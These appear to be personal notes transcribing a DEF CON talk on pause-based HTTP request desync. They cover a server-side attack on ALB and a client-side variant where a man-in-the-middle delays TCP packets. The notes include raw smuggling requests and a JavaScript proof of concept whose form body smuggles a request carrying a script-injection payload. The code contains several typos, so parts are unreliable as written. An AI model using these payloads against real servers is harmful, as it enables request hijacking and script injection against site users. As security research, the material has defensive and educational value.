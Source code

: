 ![[Pasted image 20240811010231.png]]
In other words, basically, this attack may take a few attempts, but it's worth it. 
```
POST /admin HTTP/1.1
Content-Length: 23

GET /404 HTTP/1.1
X: Y

GET / HTTP/1.1
Host: example.com
```
(60s)

![[Pasted image 20240811010556.png]]
There's one final challenge that you might encounter, which is more severe. THis is when the front-end and the back-end have the same request timeout configured on ALB that creates a race codition within a race condition and makes life incredibly painful. I thought it might be possible to avoid this issue by resetting the fron-end timeout without resending in the back-end timeout by sendind data that the front-end normalizes and then doesn't send on to the back-end. 
![[Pasted image 20240811010842.png]]
And that might work on some servers, but didn't work on ALB. And after a while of everything i tried failing, even when it was really cool conceptually, i just gave up and i just set a VANILLA atack running. And 66 hours later it was successful. So this is one for the pattient.
### Client-side pause-based desync via MITM

So that was a server-side pause-based desync. An it just leave us with on final question, which is well, is there such a thing as a client-side pause-based desync? Now, I douldn't find a way to make a browsers pause halfway through issuing a request, but SSL and TLS don't stop attackes from delaying our traffic. So there is a potential attack where the attacker triggers a request from your browser that's really big, so it gets split into multiple packets. And then all they have to do is delay the right packet and they can trigger a pause-based client-side desync and exploit you. 
**The theory:**
- Atracker website sends request, padded to cause TCP fragmentation
- MITM identifies the TCP packet containing the request body via the sice
- MITM delays this packet, causing a server timeout & pause-based desync

```
POST /admin HTTP/1.1
Content-Length: 28
```
(60 segundos)
```
GET /404 HTTP/1.1
X: PADPAD
```
(61 segundos)
```
HTTP/1.1 403 Forbidden
```
![[Pasted image 20240811011340.png]]
Now that moght sound quite theoretical. It certainly sound theoretical to me. And this is DEF CON. SO i've made a proof of concept that uses this technique on a default Apache-based website to execute arbitrary JavaScript and kind of break TLS. And now, i'm gonna to live demo it.
```
let form = documet.creatElement('form')
form.method = 'POST'
form.enctype = 'text/pain'
form.action =
'https://x.psres.net:6082/redirect?'+"h".repeat(600) + Date.now()
let input = document.createElement('input')
input.name = "HEAD / HTTP/1.1\r\nHOST: x\r\n\r\nGET /redirect?<script>alert(document.domain)</script>
HTTP/1.1\r\nHost: x\r\nFoo: bar"+".repeat(1700)+"x"
```